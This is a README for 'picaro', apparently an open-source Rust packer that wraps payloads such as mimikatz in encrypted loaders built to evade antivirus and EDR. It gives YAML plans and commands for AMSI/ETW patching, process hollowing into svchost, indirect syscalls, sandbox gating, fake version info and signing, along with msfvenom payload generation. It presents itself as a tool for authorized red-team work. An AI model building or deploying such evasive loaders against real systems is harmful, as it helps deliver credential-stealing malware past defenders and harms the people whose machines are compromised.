

<p align="center">
  
</p>

**mimicry-based packer**

> A pícaro survives by mimicry: a rogue in borrowed livery, dressed in the
> colors of something trusted, waved through every gate that would stop the
> real thing. This is that idea, but for PEs.

`picaro` takes a PE file and a YAML plan, and emits a packed PE with the
selected evasion techniques baked into a freshly generated Rust stub. No
cleartext payload ever touches disk: the payload is authenticated-encrypted at
build time and only ever exists decrypted in memory at run time.

Everything — packer and stub — is Rust. Nothing is embedded: if `rustc` is not
on your `PATH`, it tells you so and stops.

## Authorized use only

This is a malware loader packer for **authorized red team engagements,
lab environments and security research**. Packing and executing a binary you
do not own, or do not have written permission to test, is out of scope and
not supported. You are responsible for what you build with it. The techniques
here exist to be measured and understood, not aimed at systems you don't
control.

## Quick start

Requirements:

- **`rustc` on `PATH`** (the stub is compiled with bare `rustc`, not cargo).
- Workspace dependencies already built: run `cargo build` once at the repo
  root so the stub can link the `.rlib` files out of `target/`.
- Windows. The stub is built for `arch: x64` or `arch: x86`; on Linux/WSL it is
  cross-compiled to the matching `-pc-windows-gnu` target (see
  [`docs/architecture.md`](docs/architecture.md)).

```bash
# Pack the bundled test payload: hollow it into a suspended svchost.exe.
cargo run -- build examples/plans/process-hollowing.yaml

# The artifact lands where the plan says (here, dist/test_packed.exe).
./dist/test_packed.exe

# Measure what the packer actually did.
cargo run -- audit dist/test_packed.exe

# Look around the technique registry.
cargo run -- techniques list
```

`picaro` prints a banner before every subcommand; `-q`/`--quiet` skips it,
`-v`/`--verbose` adds per-step detail (resolved plan, paths, sizes, timings),
and `--no-color` (or `NO_COLOR=1`) turns off color — it is disabled
automatically when output is redirected.

## Docker (no local toolchain)

No Rust, MinGW-w64 or Windows target installed? The bundled image ships the
whole toolchain (rustc, cargo, the `x86_64-pc-windows-gnu` and
`i686-pc-windows-gnu` targets, the MinGW linkers) plus the prebuilt workspace
`.rlib` files for both architectures, so one command is enough. It
also carries `osslsigncode` and `openssl`, so it can sign the artifact itself
(see [Signing](#signing)); only `mode: store` needs Windows, because it reads the
certificate store.

```bash
# One-time build (a few minutes the first time).
docker build -t picaro .

# Pack, mounting the current directory as /work: plans + payloads in, dist/ out.
# On Linux, run as yourself so the outputs are not root-owned, and point the
# scratch directory somewhere writable (the baked-in source is not).
docker run --rm -it --user "$(id -u):$(id -g)" -e PICARO_BUILD_DIR=/tmp/picaro-build \
  -v "$PWD:/work" -w /work picaro build examples/plans/reflective-loading.yaml
```

Or use the wrapper, which builds the image on first use, handles the flags
above, and passes every argument through unchanged. It is one
standard-library-only Python script, the same on Linux, macOS and Windows:

```bash
python scripts/picaro.py build examples/plans/reflective-loading.yaml
python scripts/picaro.py audit dist/test_packed_reflective.exe
python scripts/picaro.py techniques list
```

Pass `--rebuild` (or `--build`) anywhere in the arguments to force a rebuild of
the image, and set `PICARO_IMAGE` to use a different tag.

On Linux the container runs as your user (`--user "$(id -u):$(id -g)"`), so the
artifacts it writes through the mount stay yours instead of becoming
root-owned. Docker Desktop (macOS, Windows) and rootless Docker already map
ownership to your user, so nothing is passed there; `PICARO_USER=<uid>:<gid>`
overrides the choice and `PICARO_USER=` runs as the image user (root).

On Windows, arguments are translated for the Linux container: relative paths
(`.\examples\x.yaml`, `dist\y.exe`) become POSIX paths, an absolute path under
the current directory becomes `/work/...`, and an opaque `$arg.N$` value such as
`C:\Windows\System32\svchost.exe` is left untouched (the stub resolves it at
runtime on Windows). Paths *inside* the YAML (`source`, `output.path`) must use
forward slashes, as the example plans do.

How it works:

- The repo is baked in at `/usr/src/picaro`; the packer reads its stub
  template and `Cargo.lock` from there and links the stub against the
  `.rlib`s under `/usr/src/picaro/target`.
- Your working directory is mounted at `/work`. Run from the repo root (or any
  directory holding your `plan.yaml` and payload) and use paths relative to
  it; outputs (`dist/…`) land on your host through the mount, owned by you.
- The packer's scratch directory (`build/` next to its source, read-only here)
  is redirected into the container with `PICARO_BUILD_DIR=/tmp/picaro-build`,
  so a non-root user can still write the intermediate files.
- Subcommands and flags pass through unchanged (`build`, `audit`,
  `techniques …`, plus `-q`/`-v`/`--no-color`).
- Signing works in the container: `mode: lab` and `mode: file` use
  `osslsigncode` (the `lab` chain is generated with `openssl`), so a single
  command produces a signed artifact. `mode: store` is the one exception — it
  reads the Windows certificate store.

> The container only *builds* the packed Windows PE (it cross-compiles the stub
> to the `-pc-windows-gnu` target matching `arch`). Run the resulting `.exe` on a
> Windows host.

### Containers (docker compose)

`docker-compose.yml` defines two services built from the same image:

| service | toolchain | what it is for |
| --- | --- | --- |
| `dev` | rustc + cargo + MinGW + `msfvenom` | developing the packer, and AI agents working in an encapsulated environment where the host EDR stays out of the way |
| `run` | none | packing a payload on a machine with nothing installed |

Both mount exactly one host folder, `exchange/`, which is the only thing they
write to the host: payloads and plans in, packed artifacts out. Everything else
stays in the container — the packer's scratch in `/tmp/picaro-build` and Cargo's
`target/` in the `picaro-target` volume — so compiling the packer never leaves a
byte on your disk.

```bash
# Build both images (a few minutes the first time: the dev image also installs
# Metasploit).
docker compose build
```

#### `dev` — develop the packer

```bash
# Interactive shell. The repo is at /work, `picaro` is on PATH, and `exchange/`
# is at /work/exchange.
docker compose run --rm dev

# ...or non-interactively, the way an agent or CI would:
docker compose run --rm dev bash -lc 'cargo clippy --all-targets'
docker compose run --rm dev bash -lc 'cargo test'
```

A round trip (from the shell, or as one `bash -lc`):

```bash
# 1. Generate a payload with msfvenom (raw shellcode, for reflective loading).
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /work/exchange/payload.bin

# 2. Start from the bundled shellcode plan and point it at the payload.
sed 's#\./examples/payloads/demo_shellcode\.bin#./payload.bin#' \
    examples/plans/shellcode.yaml > /work/exchange/plan.yaml

# 3. Build from the exchange folder, so the artifact lands there too
#    (the plan writes ./dist/test_shellcode.exe).
cd /work/exchange && picaro build plan.yaml

# 4. Measure it.
picaro audit dist/test_shellcode.exe
```

#### `run` — pack without a toolchain

The `run` service uses the production image and mounts only `exchange/`; the repo
is baked in, and the mounted folder appears as `/work`, so run the packer from
there:

```bash
# plan.yaml and payload.bin live in exchange/.
docker compose run --rm run build plan.yaml
docker compose run --rm run audit dist/test_shellcode.exe
```

The artifact and its side files (`dist/…`, `<stem>.ca.cer`,
`<stem>.manifest.json`, `.picaro/`) appear under `exchange/` on the host.

The containers are Linux, so they build the Windows PE but cannot run it;
execute the artifact on a Windows host. Both run as uid/gid
`${PICARO_UID:-1000}:${PICARO_GID:-1000}`; if your host user differs, set
`PICARO_UID=$(id -u) PICARO_GID=$(id -g)` before `docker compose build` so the
files stay yours. The Cargo volume is reset with `docker compose down -v`.

If the build fails on the Metasploit step with a certificate error, you are
behind a TLS-inspecting corporate proxy (Netskope, Zscaler, ...): it re-signs
`downloads.metasploit.com` with a root the base image does not trust. Trust that
root once with, eg:

```bash
# Extract the proxy's self-signed root from the build's own network path and
# trust it in the image. Trusts whatever root the network presents — a
# convenience for a locked-down dev box, not for CI.
PICARO_TRUST_PROXY_CA=1 docker compose build
```

Or, if you already have the proxy root as a file, drop it in `certs/` (it is
gitignored) and point the build at it:

```bash
mkdir -p certs && cp /path/to/proxy-root.crt certs/
PICARO_EXTRA_CA=certs/proxy-root.crt docker compose build
```

Both knobs only affect the `dev` image's trust store; neither touches the host.

<!-- --8<-- [start:plan] -->
## Plan

A build is one YAML document. Strict by design: unknown keys are an error, so
typos surface immediately instead of silently doing nothing.

```yaml
schema: 6                 # only version 6 is accepted
name: mimikatz-basic

build:
  crypto:                 # default crypto for every payload
    algo: xchacha20poly1305
    key: random
  payloads:               # named payloads, loaded by an execution step
    mimikatz:
      source: ./payload.exe # a local path, or an http(s):// URL (fetched in memory)
      format: pe            # pe | shellcode | dll | dotnet
      export: null          # format: dll only: the exported function to call
      args: []              # fixed args for the payload, before the runtime ones
      args_mode: join       # join | override
      sha256: null          # optional: pin the input's SHA-256 (64 hex chars)
      # crypto: { ... }       # optional: override build.crypto for this payload
  stub:
    path: null            # null = builtin stub; or a path to a custom .rs
    syscalls:
      mode: indirect      # none | indirect
      resolver: hells_gate  # hells_gate | tartarus_gate | api_hash
    api_resolution:       # optional: serve selected payload imports from the loader
      mode: none          # none | proxy (proxy needs syscalls: indirect + pe/dll)
      apis: []            # catalogue entries, e.g. "kernel32!ReadProcessMemory"
      unmatched: forward  # forward | abort
    strings:
      strategy: xor       # xor | stack
      key: random         # random | literal:<64 hex chars>
    debug: false          # compile a debuggable, non-evasive stub for the lab
  output:
    path: ./dist/mimikatz_packed.exe
    kind: exe             # exe | dll (a DLL a host process loads; see below)
    entry: auto           # DLL only: auto | jni_on_load | export:<name>
    arch: x64             # x64 | x86 (default x64; the stub and the payload must match)
    strip: true           # default true: drop the symbol/debug tables
    trim_paths: all       # all | none | relative (default all: scrub absolute build paths)
    manifest: true        # write <stem>.manifest.json (provenance)
    subsystem: console    # console | windows (GUI; no console window)
    resources:            # optional PE resources (no rc.exe/windres needed)
      icon: ./app.ico
      version_info:
        randomize: true    # fill unset fields with generated values
        company: "Contoso" # explicit fields always win
      manifest:
        level: as_invoker # as_invoker | highest_available | require_administrator
        dpi_aware: true
    sign:                 # optional Authenticode signing
      mode: lab           # none | lab | store | file

runtime:                  # ordered technique steps
  - technique: patch_amsi
  - technique: process_hollowing
    params:
      payload: mimikatz   # which payload to run (implicit when there is one)
      target: "C:\\Windows\\System32\\svchost.exe"
```

| Block | What it decides |
| --- | --- |
| `build.crypto` | Default payload encryption (XChaCha20-Poly1305, 24-byte nonce, fresh random key per build). A payload may override it with its own `crypto` block; with neither, encryption defaults to XChaCha20-Poly1305 with a random key. |
| `build.payloads.<name>.source` | The input to pack: a local path, or an `http(s)://` or `file://` URL (`http(s)` is fetched in memory, never written to disk). |
| `build.payloads.<name>.format` | `pe` (default), `dll`, `shellcode` or `dotnet` (a managed assembly). Decides how the input is validated and how the Execution technique runs it. |
| `build.payloads.<name>.export` | For `format: dll`, the exported function to call (e.g. `Run`). Without it only `DllMain(DLL_PROCESS_ATTACH)` runs. |
| `build.payloads.<name>.args` / `args_mode` | Fixed arguments handed to the payload (`join` = YAML args then the packed binary's own; `override` = runtime args replace the YAML ones). |
| `build.payloads.<name>.sha256` | Optional SHA-256 of the input. A mismatch aborts before anything is encrypted, so a URL (or a swapped file) cannot silently change what gets packed. |
| `build.stub.strings` | How every runtime literal in the stub is obfuscated (`xor` or `stack`). Defaults to `xor` + random key, with a warning. |
| `build.stub.api_resolution` | Serve selected payload imports (`apis`) from proxies generated in the loader instead of the real exports (`mode: proxy`). Needs `syscalls.mode: indirect` and a `pe`/`dll` payload; not usable with `process_hollowing`. |
| `build.stub.debug` | Compile a debuggable stub: no hardening, source paths kept, techniques log to stderr. Markedly less evasive — for the lab, never for delivery. |
| `build.stub` | The stub itself: a custom template (`path`, `null` = builtin), the syscall layer (`syscalls`), API resolution (`api_resolution`) and string obfuscation (`strings`). |
| `build.output` | Where the packed artifact goes and how it is finalized. `arch` selects the stub's architecture (`x64` or `x86`) and the payload must match it. `manifest` writes the provenance file. |
| `build.output.kind` | `exe` (default) or `dll`. A DLL the host process loads — a JVM (`System.load`), CPython (`ctypes`), .NET (`[DllImport]`), `rundll32` — which is what makes the chain usable where application whitelisting only allows the host program. `entry` picks the exports: `auto`, `jni_on_load` or `export:<name>`. See [DLL output design](docs/design/dll-output.md). |
| `build.output.subsystem` | `console` (default) or `windows` (GUI, no console window). |
| `build.output.resources` | Optional PE resources embedded into the artifact: `icon`, `version_info` and `manifest` (Windows app manifest / UAC). Built in Rust and written into a `.rsrc` section. |
| `build.output.sign` | Optional Authenticode signing: `lab` (self-signed), `store` (an existing cert, Windows only) or `file` (a `.pfx`). Uses `signtool` on Windows and `osslsigncode` elsewhere. |
| `runtime` | The ordered technique steps. Only Execution techniques (`reflective_loading`, `process_hollowing`, `dotnet_hosting`, `execution_callbacks`, `module_stomping`, `fibers`) take `params.payload` (optional with one payload, required with several); Preparation and Control steps never do. A technique's parameters go under a nested `params:` mapping, and each step carries the loader's own `on_success`/`on_fail`/`delay_ms`. See [Runtime steps](docs/multistage.md). |

**Build arguments.** Positional args after the plan path are substituted in
the YAML as `$arg.N$` (0-based); an arg of the form `name=value` is available
as `$arg.name$`. One plan can target several hosts:

```bash
picaro build plan.yaml "C:\\Windows\\System32\\svchost.exe"
```

```yaml
runtime:
  - technique: process_hollowing
    params:
      target: "$arg.0$"
```

A referenced-but-missing argument is a clear error, not a silent empty string.

<!-- --8<-- [end:plan] -->
<!-- --8<-- [start:interactive] -->
### Interactive build

Rather than writing the YAML by hand, answer a few questions and let the packer
write it for you:

```bash
picaro build interactive mimikatz.exe
```

The wizard walks through the payload (name, runtime args), the techniques (one
Execution plus any Preparation, each with its own parameters), the stub
(`strings`, `syscalls`) and the output, then prints the resulting document and
writes it. The YAML is the source of truth: the build runs from the file it just
wrote, so re-running `picaro build dist/mimikatz.yaml` reproduces the artifact
with no prompts. `--plan-out <path>` picks where the YAML lands (default
`dist/<name>.yaml`).

The wizard is a form, not a list of numbered prompts: arrow keys move through
single-choice menus, the spacebar toggles checkboxes on multi-selects, and `Esc`
cancels. When you finish, a **review** screen shows the YAML it will write and
lets you **build now**, **edit answers** (re-ask with your previous answers as
the defaults, so a mistake is one cursor move away, never a restart) or **quit**.

Generated plans pass through the same validation as hand-written ones, so they
are never the reason a build fails. Questions cover the common path only: a
literal `strings.key`, a custom `build.stub.path`, `args_mode: override` or
non-default `sleep_obfuscation` regions are one edit away in the written file.
The fancy prompts require a real terminal; when stdin or stdout is redirected
(e.g. a pipe or a script) the wizard falls back to plain line prompts.

<!-- --8<-- [end:interactive] -->
## Techniques

Techniques are split into two categories. **Preparation** techniques change the
current process state but never run the payload; **Execution** techniques run
the decrypted payload. A valid pipeline is `0..N` Preparation techniques in
order, followed by exactly one Execution technique.

| YAML key | Category | ATT&CK | Stability | What it does |
| --- | --- | --- | --- | --- |
| `anti_debug` | preparation | T1622 | stable | Detects a debugger and, by default, aborts before the payload runs. |
| `bouncer` | preparation | T1497.001, T1614.001 | experimental | Gates the payload on host checks (hostname, locale, uptime, RAM, VM/sandbox); aborts the pipeline when they fail. |
| `patch_amsi` | preparation | T1562.001 | stable | Patches `AmsiScanBuffer` in the current process. |
| `patch_etw` | preparation | T1562.006 | stable | Patches the ETW event-writing exports in the current process. |
| `process_hollowing` | execution | T1055.012 | experimental | Runs the payload inside a suspended, legitimate process instead of on disk. |
| `reflective_loading` | execution | T1620 | experimental | Maps the payload into the current process and runs its entry point. |
| `sleep_obfuscation` | preparation | T1027 | experimental | Encrypts the image region during a timer-driven sleep so memory scans see ciphertext. |

The registry is metadata-only. Inspect it, don't guess:

```bash
picaro techniques list                 # colored table: category, ATT&CK, stability
picaro techniques show process_hollowing   # styled README: metadata header + Markdown
picaro techniques show process_hollowing --raw   # the README verbatim
picaro techniques validate             # CI helper: registry well-formedness
```

Adding one is a documented, four-file ritual — see
[`src/techniques/README.md`](src/techniques/README.md).

## How it works



The generated stub does the reverse at run time: decrypt in memory, run the
Preparation techniques, then hand the payload to the Execution technique.
Payload literals, technique strings and the syscall names all pass through the
string-obfuscation layer, so sensitive names stay out of the binary's data
sections.

### Syscall layer

`build.stub.syscalls` is not a pipeline technique — it is a property of the loader.
It changes how the stub talks to the kernel without the techniques caring:

- `mode: none` — technique fragments call the `nt_*` helpers, which map to the
  Win32 APIs.
- `mode: indirect` — the helpers resolve SSNs at run time (Hell's Gate: read
  each SSN from the `Nt*` stub prologue in `ntdll`) and enter the kernel
  through a `syscall; ret` gadget found in `ntdll`'s `.text`.

Technique fragments always call the same `nt_*` helpers, so a technique is
written once and works under either mode. Each technique declares its `Nt*`
requirements; the packer only resolves the union of the active pipeline's
requirements. Details and measurements:
[`docs/features/ref/syscalls.md`](docs/features/ref/syscalls.md),
[`docs/measurements.md`](docs/measurements.md).

### API resolution

`build.stub.api_resolution` decides *who serves the payload's imports*. In
`mode: proxy`, the packer rewrites the payload's IAT so the selected calls land
on proxies generated inside the loader; the intercepted DLL and function names
never enter the loader's own import table.

```yaml
build:
  stub:
    syscalls:
      mode: indirect        # required by api_resolution.mode: proxy
    api_resolution:
      mode: proxy
      apis:
        - "kernel32!ReadProcessMemory"
        - "kernel32!OpenProcess"
        - "kernel32!GetProcAddress"
        - "ntdll!NtReadVirtualMemory"
        - "ntdll!NtOpenProcess"
      unmatched: forward    # forward | abort
```

The catalogue is deliberately small (`src/engine/api_resolution.rs`) — the
`lsass` critical path of a mimikatz-style payload. `ReadProcessMemory` and
`OpenProcess` are rebuilt on their `Nt*` calls through the syscall layer
(`GetLastError`/partial-copy semantics preserved), the two `ntdll!Nt*` entries
route 1:1, and `GetProcAddress` becomes a handler that answers catalogue hits
with the matching proxy. `mode: proxy` requires `syscalls.mode: indirect` and a
`pe`/`dll` payload, and is rejected with `process_hollowing` — a hollowed payload
has none of the loader's image. `unmatched` decides what an import outside the
catalogue does: `forward` (default) resolves it normally, `abort` fails the load.
Design, phases and limitations:
[`docs/design/api-resolution.md`](docs/design/api-resolution.md).

### Custom stubs

Need a loader shape the builtin stub doesn't have? Point `build.stub.path` at
your own Rust template and the packer fills in the same placeholders:

```yaml
build:
  stub:
    path: ./my_stub.rs
```

`$STUB_HELPERS$`, `$STEP_MODULES$`, `$STEP_RUNNER_BODY$`, `$SYSCALLS_BLOCK$`,
`$ARGS_BLOCK$`, `$IMPORTS_BLOCK$`, `$API_RESOLUTION_BLOCK$`, `$ARG_<n>$`.
Your template must define `fn main()`; ignoring a step block is a warning, not an
error. Full contract and examples:
[`docs/custom-stubs.md`](docs/custom-stubs.md).

### Audit

Evasion claims are worth nothing unmeasured. `picaro audit` is the
measurement half of the project:

```bash
picaro audit dist/test_packed.exe --focus imports,strings
```

It reports PE headers, sections and their entropy, imports/exports, a strings
scan (including a `Sensitive:` line for names that should never have survived),
YARA matches and an optional offline Defender scan. Baselines for every phase
live in [`docs/measurements.md`](docs/measurements.md).

**Regression gate.** `--json` prints the same data as a machine-readable
report, and `--baseline` compares a build against a saved one:

```bash
picaro audit dist/out.exe --json > dist/out.baseline.json
picaro audit dist/out.exe --baseline dist/out.baseline.json
```

The comparison fails (exit code `3`) when a sensitive literal or a suspicious
import reappears, when a section's entropy grows by more than
`--entropy-tolerance` (default `0.1` bits/byte), or when a new high-entropy
section appears. Run it in CI on a freshly packed artifact to catch an evasion
regression that still compiles. Every other failure exits `1`.

### Build manifest

Each build writes a provenance record next to the artifact, at
`<stem>.manifest.json` (disable it with `build.output.manifest: false`):

```json
{
  "manifest_schema": 2,
  "artifact_sha256": "…",
  "payload_sha256": "…",
  "plan_sha256": "…",
  "nonce": "…",
  "toolchain": { "rustc": "rustc 1.90.0 (…)", "target": "x86_64-pc-windows-msvc" },
  "resolved_plan": { "…": "the plan after build-arg substitution" }
}
```

It records the public nonce but never the payload key, so it is safe to archive
alongside the artifact. `picaro build <plan> --dry-run` resolves, verifies
`build.payloads.<name>.sha256` and validates the payload without encrypting, compiling
or writing anything — a pre-flight check for CI or for a plan review.

### PE resources

A bare Rust executable has no icon and no version info, which is a loud static
tell. `build.output.resources` embeds the three resources a normal Windows
binary carries, all generated in Rust (no `rc.exe`/`windres`, so the build stays
cross-platform):

- **`icon`** — a `.ico` file, split into `RT_ICON` images plus the
  `RT_GROUP_ICON` directory the shell reads.
- **`version_info`** — `VERSIONINFO` strings (`company`, `product`,
  `description`, `copyright`, `original_filename`, `internal_name`,
  `file_version`, `product_version`) as `RT_VERSION`. With `randomize: true`,
  the unset fields are filled with a plausible generated identity (company,
  product, description, copyright and versions), and explicit fields still win.
- **`manifest`** — the Windows application manifest (`RT_MANIFEST`): the
  requested UAC `level`, `ui_access` and DPI awareness.

The packer resolves the new section's RVA, builds the resource directory and
appends it as a `.rsrc` section to the already-compiled stub (`SizeOfImage` and
the `RESOURCE` data directory are patched; the linker never sees it):

```yaml
build:
  output:
    resources:
      icon: ./examples/assets/sample.ico
      version_info:
        company: "Contoso Ltd"
        product: "Widget"
        file_version: "2.5.1.0"
      manifest:
        level: as_invoker
        dpi_aware: true
```

### Signing

`build.output.sign` signs the finished artifact with **`signtool.exe`** on
Windows (found in `PATH`, then `PICARO_SIGNTOOL`, then the Windows Kits
directories, or set `signtool` explicitly) and with **`osslsigncode`**
everywhere else, including the Docker image. The same plan signs on either
platform; signing runs last, so the signature covers the resources, and the
manifest records the certificate and thumbprint.

```yaml
output:
  sign:
    mode: lab                       # none | lab | store | file
    subject: "CN=Contoso Widget"     # certificate to use or create
    timestamp_url: http://timestamp.digicert.com   # optional RFC 3161
```

- `mode: lab` builds a small certificate chain automatically: it creates (once)
  a self-signed CA (`<subject> Root CA`) and a code-signing certificate signed by
  it. It does **not** change this machine's trust: instead it exports the CA's
  public certificate next to the artifact as `<stem>.ca.cer`, which you install
  in the lab's *Trusted Root Certification Authorities*. On Windows the pair
  lives in the current user's store; with `osslsigncode` it lives under
  `<artifact dir>/.picaro/lab/<subject>/` (override with `PICARO_SIGN_DIR`), so
  the CA is reused across builds — including through the Docker mount. If no
  `subject` is set and the metadata is randomized, the generated company is used
  as the subject, so the certificate and the `VERSIONINFO` agree. **It is for
  integrity and lab verification only** — a lab-trusted identity gives no
  SmartScreen reputation.
- `mode: store` uses a certificate already in the current user's store, matched
  by `thumbprint` or `subject`. This is the *Windows* certificate store, so the
  mode is Windows only; inside a container use `file` or `lab`.
- `mode: file` uses a `.pfx`/`.p12`; the password comes from the environment
  variable named by `password_env`, never from the YAML.

See [`examples/plans/mimikatz.yaml`](examples/plans/mimikatz.yaml) (randomized
identity + lab signature) and
[`examples/plans/lab-signed.yaml`](examples/plans/lab-signed.yaml) (a
self-contained lab signature that works on either backend, including Docker).

A signed build produces three files next to each other (all named after the
artifact): `<stem>.exe`, `<stem>.manifest.json` and `<stem>.ca.cer`. The last one
is the trust anchor to install on a lab machine; nothing is added to the build
machine's trust stores.

## Repository layout

```text
src/
  plan/       YAML parsing and validation
  engine/       crypto, PE parsing, stub generation, compilation, syscall layer, imports
  audit/        static measurement (pe_info, strings, yara, defender, report)
  techniques/   one directory per technique + the registry (mod.rs)
  error.rs      top-level error types
  ui.rs         terminal output: banner, palette, formatting helpers
templates/stub/ Rust stub template with $placeholders$
examples/       curated example plans, test payloads, sample custom stubs
exchange/       (gitignored) the one host folder shared writable with the containers
docs/           Markdown sources (Material for MkDocs; nav in mkdocs.yml)
scripts/        Docker wrappers (picaro.py, docs.py)
docker-compose.yml  development container (picaro + msfvenom)
yara/           YARA rules (placeholder for now)
tests/          CLI integration tests + fixtures (tests/plans/, tests/fixtures/)
build/  dist/   (gitignored) intermediate artifacts and final binaries
```

## Development

```bash
cargo test                       # unit + CLI integration tests
cargo test -- --ignored          # compiles a stub per technique + string-leak check
cargo clippy --all-targets       # must be clean before any commit
cargo fmt
```

The ignored suite is the safety net: it compiles a stub for every registered
technique and fails if a sensitive literal (`AmsiScanBuffer`, `amsi.dll`,
`ntdll.dll`, …) leaks into the binary in cleartext. A literal only counts as a
leak when it appears both in the compiled stub **and** in the generated stub
source (comments stripped), so names the toolchain embeds regardless of our
code don't produce false positives.

House rules, in short: Rust first, not Rust only — a subprocess tool or a
non-Rust stub is fine when it is the pragmatic choice, but techniques are never
reimplemented outside Rust — crypto is always XChaCha20-Poly1305, no `unsafe`
in the packer, errors via `thiserror` (no `panic!`/`unwrap` in user-facing
paths), every stub string goes through `StringsConfig`, and all user-facing
output goes through `src/ui.rs`. The full list is in [`AGENTS.md`](AGENTS.md).

## Status & roadmap

| Phase | State | Scope |
| --- | --- | --- |
| 1 | done | CLI + YAML parsing + validation |
| 2 | done | XChaCha20-Poly1305 payload encryption |
| 3 | done | Rust stub generation + `rustc` compilation |
| 4 | done | Process hollowing (in-memory execution) |
| 5 | done | Static measurement infrastructure (`audit`) |
| 6 | done | Indirect syscalls (Hell's Gate, Tartarus Gate, API hashing) |
| 7 | done | AMSI patching (`patch_amsi`), technique categories |
| 8 | done | Environment gate (`bouncer`) |
| 9 | done | x86 (32-bit) support: M0–M5 — both execution techniques, the four preparations, i686 stubs, WOW64 targets and CLR hosting for managed payloads (`docs/x86.md`); M4 (x86 indirect syscalls) is parked with its reason |
| — | done | Payload formats (`pe`/`shellcode`/`dll`), interactive wizard, custom stubs |
| — | done | PE resources (icon, version info, manifest) and Authenticode signing (`signtool` on Windows, `osslsigncode` elsewhere) |
| — | done | Runtime steps (schema 6): `build.payloads` + a flat `runtime:` list chain several payloads, preparations and living-off-the-land steps in one artifact ([docs/multistage.md](docs/multistage.md)) |
| — | done | Three in-process Execution techniques for `format: shellcode`, chainable (each relays the payload's exit code): `execution_callbacks` (T1106/T1620), `module_stomping` (T1055) and `fibers` (T1055) — see [docs/measurements.md](docs/measurements.md) |
| — | done | Four more techniques, each verified end to end: `unhook_ntdll` (T1562.001, preparation), `early_bird` (T1055.004, APC injection), `pe_injection` (T1055.002) and `ppid_spoofing` (T1134.004, control) — see [docs/measurements.md](docs/measurements.md) |
| — | done | Three more techniques, each verified end to end: `thread_hijacking` (T1055.003, hijacks a thread the target already has), `stack_spoofing` (T1036, fabricates the top of the stack for every indirect syscall) and `self_deletion` (T1070.004, moves the running image into an alternate data stream or deletes it through a helper) — see [docs/measurements.md](docs/measurements.md) |

Planned:

- `process_doppelganging` / transacted hollowing (T1055.013).
- Fuzz `src/engine/pe.rs` and the plan parser (both take untrusted input).
- `cargo deny` / `cargo audit` in CI.
- Reproducible builds: a deterministic key or `--seed` (today the random key
  blocks bit-for-bit reproducibility).
- Close the remaining wizard gaps (`strings.key`, `build.stub.path`,
  `args_mode: override`, non-default `sleep_obfuscation` regions) and add
  `picaro plan validate <file>`.
- The parked x86 workstream (`docs/x86.md`): a Heaven's Gate syscall layer, if
  ever wanted (`syscalls.mode: indirect` and `api_resolution` are x64-only).

## Known limitations

- **`unhook_ntdll` undoes `patch_etw` when it runs after it** (both rewrite
  ntdll's `.text`); `plan::validate::advisories` warns about the order. And
  `early_bird` needs a real target image: the 32-bit `notepad.exe` of recent
  Windows builds is a launcher shim on which `QueueUserAPC` fails with
  `ERROR_INVALID_HANDLE` (the default `svchost.exe` and `cmd.exe` are fine).
- **`arch: x86` is supported, with one parked workstream.** Every technique
except `sleep_obfuscation` accepts `arch: x86` (the stub, the payload and — for
the techniques that spawn their own target — the target must share the
architecture, which the packer checks).
  `sleep_obfuscation` stays x64-only, and `syscalls.mode: indirect` (and
  therefore `api_resolution`) is x64-only until a Heaven's Gate layer exists. A
  managed assembly runs through `format: dotnet` + `dotnet_hosting` (the stub
  hosts the CLR), so a 32-bit .NET assembly such as `SharpHound.exe` packs and
  runs with `arch: x86`. See [`docs/x86.md`](docs/x86.md) and the example
  `examples/plans/x86.yaml`.
- **Process hollowing runs a full PE, TLS callbacks included.** The loader state
  is provisioned (imported DLLs, a real TLS index, the per-thread `.tls`
  template, the main thread's TLS slot, and a `Rip`/`Eip` hand-off), and the
  payload's `DLL_PROCESS_ATTACH` TLS callbacks run on the main thread via a
  `jmp $` parking stub before the entry point. Runtime verification of the
  callbacks on a Defender-off host is still pending. Evidence:
  [`docs/techniques/process_hollowing.md`](docs/techniques/process_hollowing.md).
- **The syscall layer carries the whole hollowing flow.** The eleven-argument
  trampoline (`NtCreateThreadEx`) plus `NtWaitForSingleObject`,
  `NtQueryInformationThread`, `NtSetContextThread` and `NtClose` moved
  `CreateRemoteThread`, `WaitForSingleObject`, `GetExitCodeProcess`,
  `Get`/`SetThreadContext` and `CloseHandle` out of the import table;
  `reflective_loading` no longer creates a thread at all.
- **`build.stub.api_resolution` is `reflective_loading`-only.** In `mode: proxy`
  the loader serves selected payload imports from proxies generated in its own
  image, so it only works when the payload runs in that process. With
  `process_hollowing` it is rejected at validation time (the target has none of
  the loader's state); making it work needs a position-independent proxy emitter
  written into the target.
- **Custom stubs keep the per-step payload keys in the runner.** Each Execution
  step's key and nonce live in the generated runner as hex literals; a custom
  template that keeps the runner keeps that shape. Take the value from a build
  argument instead when nothing derived from it should ship
  ([`examples/stubs/runtime-key.rs`](examples/stubs/runtime-key.rs)).
- **Windows Defender flags the packed artifacts.** That is the point of the
  exercise, not a bug.

## Documentation

- **The book** — Material for MkDocs; the nav lives in `mkdocs.yml`. Preview
  with `python scripts/docs.py`, which runs the official container (standard
  library only, same on Linux/macOS/Windows); `python scripts/docs.py build`
  writes the static site to `site/`.
- [`docs/architecture.md`](docs/architecture.md) — how the pieces fit together
  and why.
- [`docs/multistage.md`](docs/multistage.md) — schema 6 `runtime:` steps:
  several payloads and living-off-the-land steps in one artifact, and the
  control-return rule.
- [`docs/custom-stubs.md`](docs/custom-stubs.md) — the custom-stub contract.
- [`docs/techniques/`](docs/techniques/) — per-technique deep dives with
  measured evidence.
- [`docs/measurements.md`](docs/measurements.md) — phase-by-phase static and
  dynamic results.
